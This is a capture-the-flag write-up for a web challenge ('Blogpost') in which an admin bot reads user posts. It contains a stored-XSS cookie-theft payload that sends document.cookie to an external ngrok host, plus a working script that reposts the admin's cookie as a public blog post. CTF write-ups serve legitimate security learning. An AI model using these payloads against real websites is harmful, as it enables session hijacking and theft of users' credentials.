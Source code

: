 # Blogpost

### Description

Jaga created an internal social media platform for the company. Can you leak anyone's information?

## Solution

### 1. Standard Setup

As usual, when testing an unknown web application where you can register for an account, register for one. Mainly to test what you can do

![](Images/2.png)
![](Images/3.png)
![](Images/4.png)

### 2. XSS


Since in the source code, theres a `bot.js` accessing `/blog` as the admin user, its likely using XSS to extract the cookies from the admin user. This is a relatively common problem topic, that I've seen in PortSwigger Labs while i'm practicing. I have also seen it in some CTFs before, such as the SEETF.

I tried submitting a blog post with HTML content & scripting. It is templated in without any escaping, so there is an XSS vulnerability

```
<h1>this is content</h1>
<script>console.log("alpha");</script>
```


Cookies can be accessed by Javascript
<!--![[Web/Blogpost/Images/6.png]]-->
![](Images/6.png)

### 3. Extracting the Cookie

I tried extracting the cookie with this payload. But Content Security Policy blocked this code from running. 

```
<script> var i = new Image(); i.src = "https://e65e-128-106-225-50.ngrok.io?q="+document.cookie; </script>
```

However, I realised that I just need an output for the document cookie that everyone can see. A way to output data is through making a post. So I'll just create a new blog post.

I copied the code from the create post endpoint, made some modifications to send the document cookie, and submitted the payload when making a post

```js
<form action="/post" method="POST" class="post-form">
	<input type="text" name="title" placeholder="Title" value="Cookies">
	<textarea name="content" placeholder="Content" id="content"></textarea>
	<button type="button" class="form-submit create">Create</button>
</form>
<script>
function getFormData($form){
    var unindexed_array = $form.serializeArray();
    var indexed_array = {};

    $.map(unindexed_array, function(n, i){
        indexed_array[n['name']] = n['value'];
    });

    return indexed_array;
}


let code = function(e){
	document.getElementById("content").value = document.cookie;
    var formData = JSON.stringify(getFormData($(".post-form")));

    $.ajax({
        type: "POST",
        url: "/post",
        data: formData,
        dataType: "json",
        contentType : "application/json"
    }).done(function(response){
        if (response.message == "Success"){
            window.location.href = "/blog";
        }
        else {
            console.log(response.message);
        }
    });
}
code();
</script>
```



![](Images/5.png)

After submitting the payload, wait for the flag to show up

![](Images/7.png)

TLDR

1. Register account, login
2. Post contents
3. Wait for flag to show up

# Flag

`STF22{s1mpl3_p0st_xSs_:)}`

Top 5 to solve

<!--![[Web/Blogpost/Images/score.png]]-->
![](score.png)
